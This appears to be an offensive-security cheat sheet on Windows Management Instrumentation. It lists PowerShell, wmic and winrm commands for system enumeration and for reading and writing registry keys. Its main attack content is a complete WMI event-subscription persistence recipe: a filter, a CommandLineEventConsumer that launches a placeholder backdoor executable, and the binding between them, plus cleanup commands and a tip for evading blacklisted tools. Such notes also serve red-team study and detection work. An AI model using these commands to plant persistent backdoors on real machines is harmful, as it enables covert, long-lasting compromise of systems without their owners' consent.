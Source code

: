 # WMI
https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
## Interacting with it
1. Powershell
```
Get-WmiObject
Get-CimAssociatedInstance
Get-CimClass
Get-CimInstance
Get-CimSession
Set-WmiInstance
Set-CimInstance
Invoke-WmiMethod
Invoke-CimMethod
New-CimInstance
New-CimSession
New-CimSessionOption
Register-CimIndicationEvent
Register-WmiEvent
Remove-CimInstance
Remove-WmiObject
Remove-CimSession
```
2. wmic
3. Wbemtest.exe
Shitty GUI but Windows native and useful if Powershell and wmic are blacklisted ;)
4. WSH (VBScript or JScript)
5. C/C++ calls IWbem* COM API
6. NET System.Management class
For C#, VB.Net, and F#
7. WinRM
```
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe";CurrentDirectory="C:\"}
winrm enumerate http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_Process
winrm get http://schemas.microsoft.com/wbem/wsman/1/wmi/root/cimv2/Win32_OperatingSystem
```

## Remote use of WMI
1. DCOM
2. WinRM

## Information gathering
- Get operating system related information:
```
wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_OperatingSystem GET /all /FORMAT:list
```

## Play with registry
### Special characters
https://msdn.microsoft.com/en-us/library/aa393664(VS.85).aspx
- &H80000000 -> HKEY_CLASSES_ROOT
- &H80000001 -> HKEY_CURRENT_USER
- &H80000002 -> HKEY_LOCAL_MACHINE
- &H80000003 -> HKEY_USERS
- &H80000005 -> HKEY_CURRENT_CONFIG

### Keys and values for the following examples
- Keys:
```
Computer
  HKEY_LOCAL_MACHINE
    SOFTWARE
      Microsoft
        Windows
          CurrentVersion
            RenameFiles
              Sys
```

- Values:
```
Name        Type            Data
(Default)   REG_EXPAND_SZ   %systemroot%\ime\shared
TasksDir    REG_SZ          TASKS,4
```

### Enumerating keys
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call EnumKey ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles"
-> "Sys"
```

### Enumerating the specified key values
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call EnumValues ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\Sys"
-> "", "TasksDir"
```

### Getting the string data value of the specified key value
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call GetStringValue ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\Sys","TasksDir"
-> "TASKS,4"
```

### Creating a subkey (Admin rights required)
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call CreateKey ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\lulz"
```

### Creating or modifying the value of a key value (Admin rights required)
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call SetStringValue ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\lulz","pwn","1337"
```

### Deleting a key value:
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call DeleteValue ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\lulz","pwn"
```

### Deleting a subkey (Admin rights required)
```
wmic /NAMESPACE:"\\root\DEFAULT" path stdregprov call DeleteKey ^&H80000002,"SOFTWARE\Microsoft\Windows\CurrentVersion\RenameFiles\lulz"
```

## Persistence
### Creation
1. Creating an *__EventFilter* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="LulzFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
```

2. Creating an *__EventConsumer* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="LulzConsumer", ExecutablePath="C:\<path>\<backdoor.exe>",CommandLineTemplate="C:\<path>\<backdoor.exe>"
```

3. Creating an *__FilterToConsumerBinding* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"LulzFilter\"", Consumer="CommandLineEventConsumer.Name=\"LulzConsumer\""
```

### Listing
1. Listing the *__EventFilter* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
```

2. Listing the *__EventConsumer* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
```

3. Listing the *__FilterToConsumerBinding* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
```

### Deletion
1. Removing the *__EventFilter* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter WHERE Name="LulzFilter" DELETE
```

2. Removing the *__EventConsumer* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer WHERE Name="LulzConsumer" DELETE
```

3. Removing the *__FilterToConsumerBinding* instance
```
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding WHERE Filter="__EventFilter.Name='LulzFilter'" DELETE
```
